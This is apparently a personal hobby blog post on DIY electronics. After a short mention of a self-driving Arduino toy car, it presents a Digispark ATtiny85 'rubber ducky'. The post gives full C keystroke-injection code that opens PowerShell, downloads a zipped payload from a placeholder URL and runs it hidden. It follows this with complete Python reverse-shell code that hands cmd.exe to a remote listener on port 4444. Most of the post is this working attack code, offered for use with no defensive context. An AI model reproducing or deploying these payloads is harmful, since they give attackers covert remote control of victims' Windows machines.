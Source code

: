 ```yaml
---
author: Alessandro Ideo
github_username: usg-ishimura
tags: hacking
image: https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ae3c68f0-39e9-49c4-bb5c-07ef01d8fdfd
---
```


# DIY Electronics

Some of my recent projects include: 

## Self driving and IR controlled Arduino car as a toy for my cat

![WhatsApp Image 2024-02-13 at 15 09 03](https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ecdb3725-5078-467a-b606-7b38b9de28a6)

## Digispark italian duckuino

Digispark attiny85 can be programmed in C as a rubber ducky, here can be seen in action on a linux target

<video width="100%" height="auto" controls poster="https://img.youtube.com/vi/aW8nFgRwnoA/0.jpg">
  <source src="https://user-images.githubusercontent.com/103458862/221435341-da1ec07e-903d-4ed8-ba8d-e3d7a9163a5d.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video> 

The C windows payload for the DIY rubber ducky

```c
#include "DigiKeyboard.h"

void setup() {

	DigiKeyboard.sendKeyStroke(0);
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
	DigiKeyboard.delay(1000);
	DigiKeyboard.print("powershell");
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(1000);
	DigiKeyboard.println("wget https://embeddable-package-&-payload-URL/python-w32.zip -O python-w32.zip");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(500);
	DigiKeyboard.println("Expand-Archive -Force python-w32.zip -DestinationPath App");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(500);
	DigiKeyboard.println("cd App\\python-w32; Start-Process -WindowStyle Minimized .\\python reverse.py; exit");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	  
}

void loop() {

}
```

And the code for the reverse shell:

```python
import os,socket,subprocess,threading;

# On listener: nc -lvp 4444

def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("listener-URL", 4444))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

